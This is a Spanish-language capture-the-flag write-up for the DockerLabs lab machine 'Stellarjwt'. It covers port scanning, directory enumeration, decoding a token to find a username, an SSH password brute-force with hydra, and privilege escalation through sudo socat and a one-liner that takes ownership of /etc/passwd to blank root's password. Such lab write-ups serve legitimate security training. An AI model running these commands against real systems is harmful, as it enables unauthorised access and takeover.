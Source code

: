 # Stellarjwt

Hoy haremos la máquina "Stellarjwt" de [DockerLabs](https://dockerlabs.es).

Autor: [Alv-fh](https://github.com/Alv-fh)

Dificultad: Fácil

![dock](./images/Stellarjwt/img/dock.png)

## RECONOCIMIENTO

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 172.17.0.2 -oN escaneo.txt 
```

```ruby
# Nmap 7.95 scan initiated Fri Oct 25 16:02:00 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-10-25 16:02:00 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 13:fd:a1:b2:31:9d:ea:33:a1:43:af:44:20:3a:12:12 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEOj/HRDdBjMOnahF64+funtJuqp9p12aIRd36Qc/LhxP96Vzgbb3TBmmlikTqGqRVAlF24M53fdp9pABYc9Z5c=
|   256 a0:4f:c4:a9:00:af:cb:78:28:fd:94:c0:86:28:dc:a1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBQCVaYlLtT3rl2JLsXE13whHLmBXeknIoPXXK13Du5A
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: NASA Hackeada
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 25 16:02:08 2024 -- 1 IP address (1 host up) scanned in 8.62 seconds
```

Los puertos abiertos son los siguientes:

`22: OpenSSH`

`80: Apache httpd`

Ninguna de estas versiones son vulnerables a nada útil, por lo que continuaremos desde el navegador.

**Puerto 80:**

![80](./images/Stellarjwt/img/80.png)

Al parecer tenemos una página relacionada con la nasa pero sin nada útil, por lo que procederemos a usar `gobuster` para ver si encontramos algo útil:

```css
gobuster dir -u http://172.17.0.2 -w <WORDLIST> -x php,html,txt
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 1905]
/universe             (Status: 301) [Size: 311] [--> http://172.17.0.2/universe/]
Progress: 106383 / 882240 (12.06%)
===============================================================
Finished
===============================================================
```

Tenemos un directorio "universe" al cual si accedemos veremos simplemente una imágen. Si miramos el código fuente veremos muchos comentarios sobre la historia de la nasa, pero en el final veremos un comentario que puede estar cifrado o encriptado de alguna manera:

![comment](./images/Stellarjwt/img/comment.png)

Si a este lo metemos en [CyberChef](https://gchq.github.io/CyberChef/) con el operador "magic", nos dirá lo siguiente:

```css
{
    "sub": "1234567890",
    "user": "neptuno",
    "iat": 1516239022
}
```

Al parecer tenemos un usuario llamado "neptuno", y si recordamos la página del principio, decía la siguiente pregunta:

"¿Qué astrónomo alemán descubrió Neptuno?"

esto si lo buscamos en google, nos dirá que fue "Johann Gottfried Galle", esto lo meteremos en un archivo llamado "pass.txt" con el siguiente contenido:

```css
Johann
Gottfried
Galle
```

## INTRUSIÓN

Teniendo esta información ejecutaremos `hydra` apuntando al ssh usando el usuario "neptuno" y de wordlist las posibles contraseñas que es el astrónomo:

```css
hydra -l neptuno -P pass.txt ssh://172.17.0.2
```

![hydra](./images/Stellarjwt/img/hydra.png)

Como vemos, tenemos una contraseña para ssh, por lo cual nos conectaremos usando `ssh neptuno@172.17.0.2` con la contraseña encontrada.

## ESCALADA DE PRIVILEGIOS

#### Neptuno

Si vamos a la home de este usuario, podremos ejecutar `ls -la` y ver los archivos ocultos, que entre ellos se encuentra el siguiente:

```css
.carta_a_la_NASA.txt
```

esta si la leemos, veremos el siguiente mensaje:

```css
Buenos días, quiero entrar en la NASA. Ya respondí las preguntas que me hicieron. Se las respondo de nuevo por aquí.

¿Qué significan las siglas NASA? -> National Aeronautics and Space Administration
¿En que año se fundo la NASA? -> 1958
XXXXXXXXXXXXXXXXXXXXX -> XXXXXXXXXX

Por favor, necesito entrar!!
```

La última pregunta nos dará la contraseña para el usuario "nasa", por lo cual escalamos ejecutando `su nasa` y poniendo su contraseña.

#### Nasa

Ahora si ejecutamos `sudo -l` veremos lo siguiente:

```css
Matching Defaults entries for nasa on f683dd6fe6e7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User nasa may run the following commands on f683dd6fe6e7:
    (elite) NOPASSWD: /usr/bin/socat
```

como vemos podemos ejecutar el binario `socat` como el usuario "elite", por lo cual luego de buscar en [GTFOBins](https://gtfobins.github.io/) veo que se puede escalar con el siguiente comando:

```css
sudo -u elite socat stdin exec:/bin/bash
```

Una vez ejecutado hacemos el tratamiento de la TTy. [¿Como hacerlo?](broken-reference)

#### Elite

Nuevamente, si ejecutamos `sudo -l` veremos que podemos ejecutar el binario `chown` como root, este nos permite cambiar la propiedad de un archivo, teniendo en cuenta esto, lo que haremos será hacer que el directorio "/etc" sea de nuestra propiedad y que el archivo "/etc/passwd" también, luego, modificaremos este último eliminando la "x" del usuario root para que al ejecutar `su` podamos escalar a root sin necesidad de contraseña. Para hacerlo simplemente ejecutamos esto:

```css
sudo chown elite:elite /etc/ && sudo chown elite:elite /etc/passwd && echo "$(cat /etc/passwd | sed 's/root:x:/root::/g')" > /etc/passwd && su
```

Una vez ejecutado ya seremos root.

#### Root

![root](./images/Stellarjwt/img/root.png)

Gracias por leer.....
